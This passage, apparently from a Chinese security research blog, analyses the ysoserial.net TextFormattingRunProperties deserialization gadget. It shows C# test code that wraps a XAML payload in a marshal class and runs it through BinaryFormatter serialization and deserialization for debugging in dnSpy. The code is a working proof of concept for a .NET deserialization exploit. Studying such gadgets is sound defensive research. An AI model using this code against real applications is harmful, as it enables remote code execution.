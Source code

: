 使用dnspy反编译看下ForegroundBrush字段到底有什么猫腻。该DLL位置在ysoserial.net工具中就有，路径为`ysoserial.net\ysoserial\dlls\Microsoft.PowerShell.Editor.dll`。

测试代码如下，编译出来使用dnspy调试。

```csharp
using System;
using System.IO;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using Microsoft.VisualStudio.Text.Formatting;
namespace BinaryFormatterSerialize
{
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }

        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string xaml)
        {
            _xaml = xaml;
        }
    }
    class Program
    {
        static void Main(string[] args)
        {
            string xaml_payload = File.ReadAllText(@"C:\Users\ddd\source\repos\xml.txt");
            TextFormattingRunPropertiesMarshal payload = new TextFormattingRunPropertiesMarshal(xaml_payload);

            using (MemoryStream memoryStream = new MemoryStream())
            {
                // 构建formatter
                BinaryFormatter binaryFormatter = new BinaryFormatter();
                binaryFormatter.Serialize(memoryStream, payload);
                memoryStream.Position = 0;
                binaryFormatter.Deserialize(memoryStream);
            }
            Console.ReadKey();
        }
    }
}
```
